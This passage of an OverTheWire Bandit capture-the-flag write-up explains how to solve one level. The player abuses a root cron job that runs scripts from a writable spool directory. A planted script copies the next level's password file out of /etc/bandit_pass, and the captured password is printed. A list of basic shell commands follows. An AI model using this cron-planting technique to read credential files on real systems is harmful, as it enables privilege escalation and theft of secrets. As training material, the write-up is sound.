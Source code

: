 ```bash
        owner="$(stat --format "%U" ./$i)" #It checks if the file is owned by bandit23
        if [ "${owner}" = "bandit23" ]; then #If the file is owned by bandit23, it executes the file with a timeout of 60 seconds.
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i #Finally, it deletes the file.
    fi
done

# This is a writable directory where you can create your script:
cd /tmp/rand
# Create an empty script file script.sh:
touch script.sh
# This command attempts to open the script file in the nano text editor for editing:
nano script.sh
touch password
# the content of the script:
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/rand/password

# This ensures that the script and the password file can be accessed and modified as needed:
chmod 777 -R /tmp/rand
# This moves your script into the directory where the cron job will execute it:
cp script.sh /var/spool/bandit24/foo
ls -l
cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

# COMMANDS:

ssh username@host -p PORT
ls: Lists files and directories in the current directory.
cd [directory]: Changes the current directory to the specified one.
cat [file]: Displays the contents of the specified file.
file [file]: Determines the type of the specified file.
du [file]: Estimates file space usage.
find [path] [expression]: Searches for files in a directory hierarchy based on the specified criteria.
man: Displays the manual page for a command, providing detailed information about its usage and options.
grep: Searches for patterns within text files and prints the matching lines.
sort: Sorts lines of text files in alphabetical or numerical order.
uniq: Filters out repeated lines from a sorted file, displaying only unique lines.
strings: Extracts and prints printable strings from binary files.
base64: Encodes or decodes data in Base64 encoding.
tr: Translates or deletes characters from the input based on specified criteria.
tar: Archives multiple files into a single tarball and can extract files from an archive.
gzip: Compresses files using the GNU zip algorithm.
bzip2: Compresses files using the Burrows-Wheeler block sorting text compression algorithm.
xxd: Creates a hex dump of a given file or can reverse a hex dump back into the original binary.
mv: Moves or renames files or directories from one location or name to another.
mkdir: Creates a new directory with the specified name.
cp: Copies files or directories from one location to another.
telnet: Connects to remote hosts using the Telnet protocol, typically for testing and debugging network services.
nc (netcat): A versatile networking utility for reading from and writing to network connections using TCP or UDP.
openssl: A toolkit for the Transport Layer Security (TLS) and Secure Sockets Layer (SSL) protocols, and a general-purpose cryptography library.
openssl s_client: A diagnostic tool for connecting to SSL/TLS services to test and debug them.